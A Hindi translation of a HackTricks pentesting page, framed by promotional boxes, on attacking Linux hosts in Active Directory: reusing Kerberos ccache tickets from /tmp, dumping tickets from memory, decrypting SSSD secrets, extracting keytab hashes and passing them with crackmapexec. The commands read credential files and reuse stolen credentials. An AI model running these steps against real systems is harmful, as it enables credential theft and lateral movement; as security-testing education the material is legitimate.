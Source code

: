 # लिनक्स एक्टिव डायरेक्टरी

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को हैकट्रिक्स में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करने का एक्सेस** चाहिए? [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज़**](https://opensea.io/collection/the-peass-family) संग्रह देखें
* [**आधिकारिक PEASS और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **मुझे** **ट्विटर** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, [हैकट्रिक्स रेपो](https://github.com/carlospolop/hacktricks) और [हैकट्रिक्स-क्लाउड रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**।

</details>

एक लिनक्स मशीन एक एक्टिव डायरेक्टरी वातावरण में भी मौजूद हो सकती है।

एक एडी में एक लिनक्स मशीन **विभिन्न सीकैच टिकट्स को फ़ाइलों में संग्रहित कर सकता है। ये टिकट्स और किसी अन्य केरबेरोस टिकट के रूप में उपयोग और दुरुपयोग किया जा सकता है**। इन टिकट्स को पढ़ने के लिए आपको टिकट के उपयोगकर्ता मालिक या **मशीन के अंदर रूट** होना चाहिए।

## जांच

### लिनक्स से एडी जांच

यदि आपके पास लिनक्स में एडी पर पहुंच है (या विंडोज में बैश है) तो आप [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) का उपयोग करके एडी का जांच कर सकते हैं।

आप लिनक्स से एडी को जांचने के **अन्य तरीके सीखने के लिए निम्नलिखित पृष्ठ की जांच कर सकते हैं**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA माइक्रोसॉफ्ट विंडोज **एक्टिव डायरेक्टरी** के लिए एक ओपन-सोर्स **वैकल्पिक** है, मुख्य रूप से **यूनिक्स** वातावरणों के लिए। यह एक पूर्ण **एलडीएपी निर्देशिका** को एक MIT **केरबेरोस** कुंजी वितरण केंद्र के साथ मिलाकर एक्टिव डायरेक्टरी के समान प्रबंधन के लिए है। CA और RA प्रमाणपत्र प्रबंधन के लिए डॉगटैग **सर्टिफिकेट सिस्टम** का उपयोग करते हुए, यह स्मार्टकार्ड सहित **मल्टी-फैक्टर** प्रमाणीकरण का समर्थन करता है। यूनिक्स प्रमाणीकरण प्रक्रियाओं के लिए SSSD एकीकृत है। इसके बारे में अधिक जानने के लिए यहाँ देखें:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## टिकट्स के साथ खेलना

### पास द टिकट

इस पृष्ठ पर आपको विभिन्न स्थान मिलेंगे जहाँ आप **लिनक्स होस्ट में केरबेरोस टिकट्स पाएंगे**, आगे के पृष्ठ पर आप सीसीचेच टिकट्स के फॉर्मेट को किर्बी में बदलना सीख सकते हैं (जिसे आपको विंडोज में उपयोग करने के लिए आवश्यकता है) और यहाँ तक कि पीटीटी हमला कैसे करें:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### /tmp से सीसीचेच टिकट पुनः उपयोग

सीसीचेच फ़ाइलें **केरबेरोस क्रेडेंशियल्स को संग्रहित करने के लिए बाइनरी फ़ॉर्मेट** होती हैं जो आम तौर पर `/tmp` में 600 अनुमतियों के साथ संग्रहित की जाती हैं। इन फ़ाइलों को उनके **नाम प्रारूप, `krb5cc_%{uid}`,** के साथ पहचाना जा सकता है, जो उपयोक्ता के UID से संबंधित है। प्रमाणीकरण टिकट सत्यापन के लिए, **पर्यावरण चर `KRB5CCNAME`** को वांछित टिकट फ़ाइल के पथ पर सेट किया जाना चाहिए, जिससे इसका पुनः उपयोग हो सके।

वर्तमान प्रमाणीकरण के लिए उपयोग किए जा रहे टिकट की सूची `env | grep KRB5CCNAME` के साथ देखें। यह फ़ॉर्मेट पोर्टेबल है और टिकट को **पर्यावरण चर को सेट करके पुनः उपयोग किया जा सकता है** `export KRB5CCNAME=/tmp/ticket.ccache`। केरबेरोस टिकट नाम प्रारूप `krb5cc_%{uid}` है जहाँ uid उपयोक्ता UID है।
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### कीकैश टिकट कुंजीडान से पुनः उपयोग

**प्रक्रिया की स्मृति में संग्रहीत केरबेरोस टिकट निकाले जा सकते हैं**, विशेष रूप से जब मशीन का पीट्रेस संरक्षण अक्षम होता है (`/proc/sys/kernel/yama/ptrace_scope`). इस उद्देश्य के लिए एक उपयुक्त उपकरण [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey) पर पाया जा सकता है, जो सत्रों में इंजेक्शन करके टिकटों को डंप करने में सहायक है और उन्हें `/tmp` में डंप करता है।

इस उपकरण को कॉन्फ़िगर और उपयोग करने के लिए, नीचे दिए गए चरणों का पालन किया जाता है:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
यह प्रक्रिया विभिन्न सत्रों में इंजेक्शन करने का प्रयास करेगी, उत्पन्न टिकट को `/tmp` में `__krb_UID.ccache` नामक संरचना के साथ संग्रहित करके सफलता की संकेत देगी।


### SSSD KCM से CCACHE टिकट पुनः उपयोग

SSSD एक प्रतिलिपि डेटाबेस को पथ `/var/lib/sss/secrets/secrets.ldb` पर बनाए रखता है। संबंधित कुंजी केवल रूट अनुमतियों वाले होते हैं, जो पथ `/var/lib/sss/secrets/.secrets.mkey` पर एक छिपी हुई फ़ाइल के रूप में संग्रहीत है। डिफ़ॉल्ट रूप से, यदि आपके पास **रूट** अनुमतियाँ हैं तो केवल कुंजी पठनीय है।

--डेटाबेस और --कुंजी पैरामीटर के साथ \*\*`SSSDKCMExtractor` \*\* को आह्वान करना डेटाबेस को विश्लेषित करेगा और **रहस्यों को डिक्रिप्ट** करेगा।
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**प्रमाणपत्र कैश कर्बेरोस ब्लॉब को एक उपयोगी कर्बेरोस सीकैश फ़ाइल में रूपांतरित किया जा सकता है** जो Mimikatz/Rubeus को पारित किया जा सकता है।

### केटैब से सीकैश टिकट पुनः उपयोग करें
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### /etc/krb5.keytab से खाते निकालें

सेवा खाते कुंजी, जो जड़ स्तर की अनुमतियों के साथ काम करने वाली सेवाओं के लिए महत्वपूर्ण हैं, सुरक्षित रूप से **`/etc/krb5.keytab`** फ़ाइलों में संग्रहीत होती हैं। ये कुंजियाँ, सेवाओं के लिए पासवर्ड के समान, कड़ी गोपनीयता की मांग करती हैं।

कुंजीपटल फ़ाइल की सामग्री की जांच के लिए, **`klist`** का उपयोग किया जा सकता है। यह उपकरण कुंजी विवरण प्रदर्शित करने के लिए डिज़ाइन किया गया है, जिसमें **NT Hash** उपयोगकर्ता प्रमाणीकरण के लिए, विशेष रूप से जब कुंजी प्रकार को 23 के रूप में पहचाना जाता है।
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Linux उपयोगकर्ताओं के लिए, **`KeyTabExtract`** एक कार्यक्षमता प्रदान करता है जिसका उपयोग RC4 HMAC हैश निकालने के लिए किया जा सकता है, जो NTLM हैश पुनः उपयोग के लिए उपयोग किया जा सकता है।
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
मैकओएस पर, **`bifrost`** कुंजीटैब फ़ाइल विश्लेषण के लिए एक उपकरण के रूप में काम करता है।
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
कोड और हैश जानकारी का उपयोग करते हुए, **`crackmapexec`** जैसे उपकरण का उपयोग करके सर्वरों के साथ कनेक्शन स्थापित किया जा सकता है।
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## संदर्भ
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापित करना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या हैकट्रिक्स को पीडीएफ में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* खोजें [**द पीएएस फैमिली**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**एनएफटी**](https://opensea.io/collection/the-peass-family) संग्रह
* प्राप्त करें [**आधिकारिक पीएएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मेरा** **ट्विटर** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)** का पालन करें**.
* **हैकिंग ट्रिक्स साझा करें, [हैकट्रिक्स रेपो](https://github.com/carlospolop/hacktricks) और [हैकट्रिक्स-क्लाउड रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**।

</details>
